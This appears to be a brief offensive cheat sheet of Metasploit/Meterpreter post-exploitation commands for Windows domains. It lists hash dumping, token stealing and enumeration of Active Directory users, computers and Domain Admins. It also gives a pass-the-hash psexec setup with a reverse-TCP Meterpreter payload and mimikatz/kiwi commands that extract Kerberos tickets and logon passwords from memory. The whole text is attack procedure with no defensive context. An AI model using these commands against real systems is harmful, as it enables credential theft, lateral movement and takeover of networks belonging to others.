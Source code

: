 # hashdump
- hashdump 

# extapi
- steal_token (to use domain creds)
- load extapi
- adsi_computer_enum <domain>
- adsi_user_enum <domain>
- adsi_nested_group_user_enum <domain> "CN=Domain Admins,CN=Users,DC=<domain>"
- resolve <host>
- nbtstat -A <hostip>




# pass-the-hash
- exploit/windows/smb/psexec
- set payload windows/meterpreter/reverse_tcp
- set smbuser <user>
- set smbpass <hash after group id but not last 3 colons>
- set smbdomain <domain>

# mimikatz/kiwi
- load kiwi
- creds_kerberos
- kiwi_cmd sekurlsa::logonpasswords
